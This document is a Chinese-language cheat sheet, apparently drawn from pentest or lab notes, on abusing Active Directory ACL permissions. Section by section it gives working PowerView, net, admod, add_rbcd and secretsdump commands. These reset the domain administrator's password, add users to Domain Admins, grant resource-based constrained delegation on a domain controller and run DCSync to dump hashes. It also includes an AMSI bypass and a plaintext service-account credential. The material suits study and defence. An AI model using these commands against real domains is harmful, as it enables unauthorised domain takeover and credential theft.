

# ACL滥用

## User-Force-Change-Password扩展权限

拥有该扩展权限，可在不知道目标用户密码的情况下强制修改目标的密码。

```shell
Import-Module .\powerview.ps1
#添加用户hack对域管理员administrator 重置密码的权限
Add-DomainObjectAcl -TargetIdentity administrator -PrincipalIdentity hack -Rights ResetPassword -Verbose

#修改密码
admod -users -rb cn=administrator unicodepwd::feng123! -optenc
#该权限不支持拿net命令修改密码

#或者
$cred = ConvertTo-SecureString "feng123!" -AsPlainText -force
Set-DomainUserPassword -identity hack -accountpassword $cred
```


## member权限属性

拥有该属性的权限，可以将任意用户、组或机器加入到目标安全组中。

比如拥有了Domain Admins组的member属性的完全控制权，就可以往Domain Admins组里添加用户

```shell
net group "domain admins" hack /add /domain
```


## msDS-AllowedToActOnBehalfOfOtherIdentity

拥有该属性的权限，可以修改目标对象基于资源的约束性委派RBCD，进行攻击获取目标的权限

```shell
Import-Module .\powerview.ps1
#添加用户hack对域控的msDS-AllowedToActOnBehalfOfOtherIdentity属性修改权限
Add-DomainObjectAcl -TargetIdentity "CN=DC,OU=Domain Controllers,DC=xie,DC=com" -PrincipalIdentity hack -RightsGUID 3f78c3e5-f79a-46bd-a0b8-9d18116ddc79 -Verbose

#创建机器账户machine$，密码为root，然后赋予机器账户machine$到域控的基于资源的约束性委派
add_rbcd.exe domain=xie.com dc=DC.xie.com tm=DC ma=machine mp=root
```

然后进行一次基于资源的约束性委派攻击：


## DCSync

```shell
python3.10 secretsdump.py  'egotistical-bank/svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175' -just-dc
```


## GenericAll权限

### 1.应用于用户


修改目标密码

```powershell
net user administrator feng123! /domain
```

### 2.应用于机器

进行基于资源的约束性委派攻击

```powershell
#创建机器账户machine$，密码为root，然后赋予机器账户machine$到域控的基于资源的约束性委派
add_rbcd.exe domain=xie.com dc=DC.xie.com tm=DC ma=machine mp=root
```


### 3.应用于组

给组添加用户

```shell
net group "domain admins" hack /add /domain
```

### 4.应用于域

hack拥有对域对象xie.com的GenericAll权限。

给hack Sync权限：



## GenericWrite权限

类似于GenericAll权限，但是不能赋予User-Force-Change-Password和DCSync权限。

对于用户，可以修改其doesnotrequirepreauth属性的值来不需要 Kerberos 预身份验证，然后进行AS-REP Roasting攻击。

```shell
#evil-winrm必须先加载Bypass-4MSI才能powerview
menu
Bypass-4MSI
Import-Module .\powerview.ps1
Get-ADUser jorden | Set-ADAccountControl -doesnotrequirepreauth $true

```


## WriteDACL权限

可以修改目标对象的DACL。拥有这个权限可以往指定安全对象写入任何的ACE，从而完全控制安全对象。

例如hack拥有对xie.com的WriteDACL权限，通过powerview脚本给hack添加对域xie.com的DCSync权限。

##### 

## WriteOwner权限

可以修改目标对象的Owner属性。该权限可以修改指定安全对象的Owner属性为任意用户，而Owner默认拥有WriteDACL等权限，因此直接利用。

```shell
powershell
Import-Module .\PowerView.ps1
Set-DomainObjectOwner -identity claire -OwnerIdentity tom

Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword -Verbose

$cred = ConvertTo-SecureString "fengfeng123!@#" -AsPlainText -force
Set-DomainUserPassword -identity claire -accountpassword $cred
```


### 
